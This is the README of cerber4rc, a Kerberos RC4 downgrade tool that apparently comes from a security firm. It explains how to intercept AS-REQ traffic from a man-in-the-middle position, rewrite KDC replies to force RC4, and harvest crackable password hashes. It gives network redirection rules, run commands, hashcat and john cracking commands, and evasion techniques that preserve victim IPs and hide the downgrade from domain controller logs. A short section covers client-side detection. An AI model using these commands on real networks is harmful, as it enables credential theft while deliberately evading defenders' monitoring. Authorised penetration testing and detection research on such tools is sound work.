


# cerber4rc - Meddling with the three-headed dog

<p align="center">
    
</p>

## TL;DR

cerber4rc downgrades Kerberos pre-authentication messages by forcing clients to encrypt their AS-REQ timestamps using
ARC4 (RC4), while still authenticating to the domain controller using secure ciphers — in other words, it performs
RC4-based AS-REQ roasting in a stealthy way. The captured hash (`$krb5pa$23$`) is much faster to crack than
AES-encrypted AS-REQ messages, and no security events related to insecure ciphers are logged on the domain controller.
The tool also supports transparent proxying so that the source IP address of the victim is preserved.

## Table of contents

- [TL;DR](#tldr)
- [Installation](#installation)
  - [Using pipx](#using-pipx)
  - [Using a virtual environment](#using-a-virtual-environment)
- [Usage](#usage)
  - [Prerequisites](#prerequisites)
    - [Network setup](#network-setup)
  - [Passive interception](#passive-interception)
  - [Active interception](#active-interception)
    - [TCP proxy](#tcp-proxy)
    - [Transparent proxy (TPROXY)](#transparent-proxy-tproxy)
  - [Hash outputs](#hash-outputs)
  - [All options](#all-options)
- [How does it work](#how-does-it-work)
  - [Context](#context)
  - [Why downgrading?](#why-downgrading)
  - [Existing tools](#existing-tools)
  - [Forcing clients to use RC4](#forcing-clients-to-use-rc4)
  - [Detection](#detection)
- [Inspiration & references](#inspiration--references)

## Installation

### Using pipx

```bash
$ pipx install git+https://github.com/synacktiv/cerber4rc
```

### Using a virtual environment

```bash
$ git clone https://github.com/synacktiv/cerber4rc
$ cd cerber4rc
$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip3 install .
$ python3 -m cerber4rc
```

## Usage

### Prerequisites

To use the tool, you first need to have obtained a Man-in-the-Middle (MitM) position that allows you to intercept the Kerberos traffic of your victims. This can be achieved in several ways, for example:

- ARP spoofing
- Rogue DHCPv6 server
- DNS poisoning

> [!IMPORTANT]
> The machine you target must be configured to support RC4, otherwise the downgrade will fail, which is auto-detected by the tool. This is not a prerequisite on the KDC side: if the workstation you're targeting advertises RC4 as an etype, but the domain controller does not support RC4 encryption for Kerberos pre-authentication, the attack will still work.

#### Network setup

Once you're receiving Kerberos traffic, the idea is to DNAT port 88/TCP to a local TCP socket on which the tool is listening. This can be done with the following nft rules:

```bash
$ cat /etc/nftables.conf
[...]
table inet nat {
        chain prerouting {
                type nat hook prerouting priority dstnat; policy accept;
                ip saddr <ip_target_1> tcp dport 88 dnat ip to <local_ip>:<local_port>
                ip saddr <ip_target_2> tcp dport 88 dnat ip to <local_ip>:<local_port>
                [...]
                ip saddr <ip_target_n> tcp dport 88 dnat ip to <local_ip>:<local_port>
        }
}
[...]

$ sudo nft -f /etc/nftables.conf
```

Your attack machine also needs to allow IP forwarding, which can be enabled this way:

```bash
$ sudo sysctl net.ipv4.ip_forward=1
```

> [!NOTE]
> If you're using the tool in `--transparent` mode, additional setup is required, which is described in the [transparent proxy section](#transparent-proxy-tproxy).

### Passive interception

cerber4rc allows for passive interception of Kerberos pre-authentication messages with the `--relay` flag. It will derive hashes based on whatever etype the victims are using to encrypt their pre-authentication timestamp (AES or RC4).

```bash
$ cerber4rc --kdc-host <dc_ip> --listen-host <local_ip> --listen-port <local_port> --relay
```

### Active interception

cerber4rc supports two different modes for active interception: a regular TCP proxy (default mode) and a transparent proxy (`--transparent` flag).

#### TCP proxy

This mode is the default behavior of the tool. It "splits" the connection in two distinct parts by terminating the TCP connection on the client's side, and creating a new TCP connection to the domain controller (DC). From a network perspective, the DC sees the IP of the machine running cerber4rc, which in hardened and mature environments can trigger detection rules.

```bash
$ cerber4rc --kdc-host <dc_ip> --listen-host <local_ip> --listen-port <local_port>
```

#### Transparent proxy (TPROXY)

This mode can be enabled by using the `--transparent` flag. It creates a transparent proxy, which requires the `CAP_NET_ADMIN` capability, or for the tool to be run as the `root` user. This allows you to preserve the victim's IP address when downgrading Kerberos pre-authentication messages: the event logs generated on the KDC for TGT requests will hold the IP address of the victim, and not that of the attacker's machine running cerber4rc.

For this mode to work, a different network setup is required. First of all, the following nft rules need to be created:

```
table ip tproxy_kerberos {
    chain divert {
        type filter hook prerouting priority mangle; policy accept;

        socket transparent 1 meta mark set 1 accept
        meta l4proto tcp th dport 88 tproxy to :<cerber4rc_listening_tcp_port> meta mark set 1 accept
    }
}
```

Then, the following policy routing rule and route need to be defined:

```bash
$ sudo ip rule add fwmark 1 lookup 100
$ sudo ip route add local 0.0.0.0/0 dev lo table 100
```

cerber4rc can then be run with the `--transparent` flag, as `root` or by granting the `CAP_NET_ADMIN` capability to your Python interpreter:

```bash
$ cerber4rc --kdc-host <dc_ip> --listen-port <tcp_port_of_your_choice> --transparent -o /tmp/hashes
```

### Hash outputs

Captured hashes will be logged by default in the `<current_timestamp>-hashes_hashcat` and `<current_timestamp>-hashes_john` files in the current directory. This behavior can be
changed with the `--hash-logfile` (`-o`) flag. The tool will check first if you have the correct permissions to write to the selected location, and exit otherwise.

To crack the harvested hashes, you can use john or hashcat with the following options:

```bash
# RC4 (etype 23)
$ john --wordlist=rockyou.txt <path_to_john_hashes>
$ hashcat -m 7500 <path_to_hashcat_hashes> rockyou.txt

# AES (etype 17/18), captured when RC4 downgrade is not available
$ john --wordlist=rockyou.txt <path_to_john_hashes>
$ hashcat -m 19800 <path_to_hashcat_hashes> rockyou.txt   # etype 17, AES-128
$ hashcat -m 19900 <path_to_hashcat_hashes> rockyou.txt   # etype 18, AES-256
```

### All options

```
$ cerber4rc --help
                                                                                                                                                                                                                                                                                                                                                                                        
 Usage: cerber4rc [OPTIONS]                                                                                                                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                                                                                                                                        
 Meddles with Kerberos pre-authentication messages to harvest hashes.                                                                                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                                                                                        
╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --kdc-host          -k      <str>                      Kerberos KDC IP address [required]                                                                                                                                                                                                                                                                                         │
│    --listen-host       -l      <str>                      IP address to listen on [default: 0.0.0.0]                                                                                                                                                                                                                                                                                 │
│    --listen-port       -p      <int range> [1<=x<=65535]  Port to listen on [default: 8888]                                                                                                                                                                                                                                                                                          │
│    --kdc-port                  <int range> [1<=x<=65535]  Kerberos KDC port [default: 88]                                                                                                                                                                                                                                                                                            │
│    --relay             -r                                 Passive mode: observe and capture only, no rewriting                                                                                                                                                                                                                                                                       │
│    --hash-logfile      -o      <str>                      Prefix for the captured-hash files (<prefix>_john / <prefix>_hashcat). An existing directory is also accepted, and timestamped files are placed inside it                                                                                                                                                                  │
│    --verbose           -v                                 Enable debug output                                                                                                                                                                                                                                                                                                        │
│    --keep-downgrading                                     Keep downgrading a principal after a hash is verified valid, instead of going quiet after the first good capture                                                                                                                                                                                                           │
│    --machines                                             Also target machine accounts (cname ending in '$'). By default they are detected and passed through untouched -- their password is uncrackable regardless of etype, so nothing is captured for them                                                                                                                        │
│    --transparent                                          Carry the client's own source IP and port on the connection to the KDC, so event 4768 records the client instead of this host. Needs CAP_NET_ADMIN (sudo, or setcap on the interpreter) plus the tproxy plumbing described in the README; the destination is then taken from the accepted socket rather than --kdc-host    │
│    --help                                                 Show this message and exit.                                                                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

## How does it work

### Context

In modern Active Directory environments, in order to obtain a TGT, clients have to exchange pre-authentication messages
with the KDC to prove their identity (unless the `DoesNotRequirePreAuth` attribute is set on the LDAP user object, which
leads to AS-REP roasting attacks). To do so, the KDC will reply to the client's AS-REQ message with a
`KDC_ERR_PREAUTH_REQUIRED` message. The latter will include in its body the supported etypes, i.e., the etypes the KDC
supports to compute a pre-authentication timestamp (`PA-ENC-TIMESTAMP`). On an up-to-date Windows Server, the KDC
(which is, in Active Directory environments, the domain controller) will include etypes 18 (`AES256-CTS-HMAC-SHA1-96`)
and 23 (`ARCFOUR-HMAC-MD5`). However, clients will choose by default the most secure cipher among this list. Therefore,
a Windows workstation will issue an AS-REQ message with a timestamp encrypted using AES.

During pentesting engagements, the first step is often to gain authenticated access to the domain. In order to do so,
several techniques exist, including MitM attacks. One of the goals of these sorts of attacks is to
sniff MitMed clients' network traffic in order to harvest hashes that can be cracked later. The aim of cerber4rc is to
collect hashes that can be cracked as fast as possible, while remaining stealthy so as not to be caught by the blue team.
It does so by meddling with the Kerberos messages sent by the domain controller and removing secure etypes before
forwarding the edited reply to MitMed clients. As a result, these clients will include a `PA-ENC-TIMESTAMP` field
encrypted using RC4 in their next request to the KDC (AS-REQ), which we can intercept to derive a `$krb5pa$23$` hash
from.

### Why downgrading?

We could simply passively listen to the network and capture `$krb5pa$17$` or `$krb5pa$18$` hashes without tampering with
Kerberos traffic. However, these hashes are significantly slower to crack. Indeed, using GPU-based cracking power only,
cracking RC4 hashes is more than 1,000 times faster than AES (RTX 2080 Ti):

```bash
$ hashcat -b -m 7500
hashcat (v7.1.2) starting in benchmark mode
[...]
CUDA API (CUDA 13.4)
====================
* Device #01: NVIDIA GeForce RTX 2080 Ti, 10675/10835 MB, 68MCU
* Device #02: NVIDIA GeForce RTX 2080 Ti, 10675/10835 MB, 68MCU
[...]
--------------------------------------------------------
* Hash-Mode 7500 (Kerberos 5, etype 23, AS-REQ Pre-Auth)
--------------------------------------------------------

Speed.#01........:  1028.1 MH/s (96.52ms) @ Accel:179 Loops:256 Thr:32 Vec:1
Speed.#02........:  1057.6 MH/s (93.81ms) @ Accel:179 Loops:256 Thr:32 Vec:1
Speed.#*.........:  2085.8 MH/s

$ hashcat -b -m 19900
[...]
---------------------------------------------------------------------
* Hash-Mode 19900 (Kerberos 5, etype 18, Pre-Auth) [Iterations: 4095]
---------------------------------------------------------------------

Speed.#01........:   915.8 kH/s (75.07ms) @ Accel:8 Loops:1024 Thr:512 Vec:1
Speed.#02........:   938.9 kH/s (73.26ms) @ Accel:8 Loops:1024 Thr:512 Vec:1
Speed.#*.........:  1854.7 kH/s
[...]
```

### Existing tools

Tools already exist to perform RC4 downgrades of pre-authentication Kerberos messages. However, existing solutions have several caveats:
- Domain controllers have the necessary telemetry to spot the RC4 downgrade in the 4768 security event log (*"A Kerberos authentication ticket (TGT) was requested"*). In particular, a mismatch can be identified between the advertised etypes in the first AS-REQ message and the TGT encryption type that was selected by the KDC.
- The victim's IP address is not preserved, which can trigger detection rules in certain environments (e.g., several accounts requesting a TGT from the same IP).

For these reasons, cerber4rc tries to mitigate these IoCs by never letting the domain controller see client material encrypted using insecure ciphers, and by preserving victims' source IP addresses.

### Forcing clients to use RC4

To actually obtain RC4 hashes in a stealthy way, cerber4rc proceeds as follows:

1. When a client connects, cerber4rc forwards the original message to the KDC (domain controller).
2. The KDC's response is intercepted, and the etypes corresponding to AES encryption are dropped to only leave the RC4
(ARC4) etype. The edited `KDC_ERR_PREAUTH_REQUIRED` message is then returned to the client, which forces the latter to
believe that its only option is to encrypt the pre-authentication timestamp using RC4.
3. Once the client has crafted the corresponding AS-REQ message (including a `PA-ENC-TIMESTAMP` encrypted using RC4),
it sends it to cerber4rc, which extracts the necessary information to construct the `$krb5pa$23$` hash.
4. However, if the AS-REQ message were forwarded to the KDC as-is, the presence of RC4 could be monitored and lead to
detection. For this reason, cerber4rc returns a `KDC_ERR_ETYPE_NOSUPP` message (error code 14) containing the original
supported ciphers, from which RC4 is removed. This tricks the client into re-issuing an AS-REQ message encrypted with
stronger ciphers, evading potential detection, while an RC4 hash has already been captured.
5. The KDC receives the AS-REQ encrypted with strong ciphers and replies with a TGT that the client can further use.

The workflow described above can be summarized with the following sequence diagram:

<picture>
  <source
    media="(prefers-color-scheme: dark)"
    srcset="./assets/rc4_downgrade_dark.svg"
  >
  
</picture>

### Detection

In `--transparent` mode, the tool tries to remove residual IoCs by reusing the victim's own TCP source port and sending packets with a TTL set to 128 (the Windows default). The IP address of the victim is also preserved, which means that investigating the 4768 security event logs alone is not enough to determine whether a downgrade took place. As no RC4-encrypted material ever reaches the domain controller, the attack cannot be detected as such server-side.

However, it is possible to detect the attack by turning on specific client-side logs available under **Applications
and Services Logs\Microsoft\Windows\Security-Kerberos\Operational**. These are not enabled by default and allow the Kerberos error message `KDC_ERR_ETYPE_NOSUPP` to be spotted by a potential blue team:



## Inspiration & references

cerber4rc was inspired by the work of Yassine Oukessou (Yaxxine7) and his tool [ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher), as well as by his [extensive research on the matter](https://www.barbhack.fr/2025/assets/slides/asrep_catcher.pdf) that was presented during the Barbhack 2025 edition.
